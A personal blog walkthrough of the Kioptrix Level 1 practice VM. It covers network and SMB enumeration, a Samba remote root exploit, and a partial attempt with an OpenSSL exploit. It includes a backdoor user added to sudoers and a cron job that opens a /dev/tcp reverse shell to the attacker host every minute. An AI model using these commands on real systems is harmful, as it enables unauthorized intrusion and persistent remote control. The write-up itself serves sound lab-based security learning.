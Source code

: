 ```yaml
---
layout: post
title: Kioptrix 1 - Walkthrough
---
```


I have been slow on updating the blog. Not because I haven't been hacking VMs and doing other stuff. I just got lost in other stuff.

## Scanning

So as usual I started out scanning the machine. I have been learning more about metasploit and metasploit database so I tried to use that a bit more. So I scanned with db_nmap


```
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.168.1.103  22    tcp    ssh          open   OpenSSH 2.9p2 protocol 1.99
192.168.1.103  80    tcp    http         open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  111   tcp    rpcbind      open   2 RPC #100000
192.168.1.103  139   tcp    netbios-ssn  open   Samba smbd workgroup: PMYGROUP
192.168.1.103  443   tcp    ssl/http     open   Apache httpd 1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
192.168.1.103  1024  tcp    status       open   1 RPC #100024
```

## Focus on smb
After checking out the website on 80 and 443, it just had default apache pages, I decided to focus on smb. I have never worked with smb, so I had to read up on what it is, what it does, and what it is for.

So samba, or smb, is a service that provides file-sharing between unix and windows. So you can have a linux-server in the office and have people backup and save all their data on the server, even though they use windows-machines. From a user-perspective you just see a folder that you can enter and add and remove whatever files you want.

So it is not that different from a NFS or FTP-server. And after you have connected to it you can mount the share to you local filesystem. Just like NFS.

So if we search for smb or samba in metasploit we get ton's of good stuff. Some auxiliary modules and a lot of windows exploits. And even some for linux.

```
search smb
```

I tried out a few of the auxiliary modules, but they were not that great. I also tried out a few nmap-scripts, like: enum-shares, and enum-users. But neither returned any new info. So instead I opted to just connect to the server the normal way. On kali you get smbclient included, so after reading the man/help-page I connected like this:

```
smbclient -L 192.168.1.103


Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename       Type      Comment
	---------       ----      -------
	IPC$            IPC       IPC Service (Samba Server)
	ADMIN$          IPC       IPC Service (Samba Server)
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Server               Comment
	---------            -------
	KIOPTRIX             Samba Server

	Workgroup            Master
	---------            -------
	MYGROUP              KIOPTRIX

```

If you don't type any password you can make an anonymous login. Here we can see that the version is `Samba 2.2.1a`.

So I did a search with searchsploit, which I have come to really love because you can search with multiple search-terms, unlike `search` which is very buggy. And found some interesting stuff.

```
searchsploit samba linux
Samba <= 2.2.8 - Remote Root Exploit             | ./linux/remote/10.c
```

So I copied and compiled this exploit.
```
./samba -b 0 192.168.1.103
```

And it returned a root-shell. So yeah, not that difficult.

I also tried a few exploits against the apache server, as it was very old an vulnerable. There were several local exploits. But one I really liked was:

```
Apache 1.3.x - 2.0.48 - mod_userdir Remote Users Disclosure Exploit           | ./linux/remote/132.c
```

This was a really nice exploit. You can brutforce usernames really fast with it.


After I had entered I explored the system a bit. Found that root keeps a log in its mail for ssh-login attemps.
The configuration for the samba-server is found in /etc/samba

First I wanted to find out what distro it was, but it didn't show me the usual way:

```
uname -a
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
```

Put in /etc I found

```
sh-2.05# cat redhat-release
cat redhat-release
Red Hat Linux release 7.2 (Enigma)
```

Then I tried to set up a new user for persistence in case someone would patch this 100 years old vulnerability. The `useradd` command was not found, so I had to add them to the path First

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Then I ran
```
useradd pelle
passwd pelle
```

Then I added the user to the sudo goup by doing
```
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

Once I had a new user with sudo-rights, I also added a cronjob to connect to the attcking machine every minute.

```
crontab -e
*/1 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

## Using openssl

So I read in the description of the VM that there are multiple ways to pwn this machine. So I set out to do it again.

This time I started focusing on Apache and OpenSSL.

So by visiting the webpage we understand that it is a RedHat-distro.
So after search with searchsploit I found this exploit

```
Apache OpenSSL - Remote Exploit (Multiple Targets) (OpenFuckV2.c)           | ./linux/remote/764.c
```

So I opened it and tried to compile it. And it failed. But in the exploit code I found
```
* http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/
```

So I followed the instructions and updated the script. And ran it. But the script kept dying. It said it managed to spawn a shell.
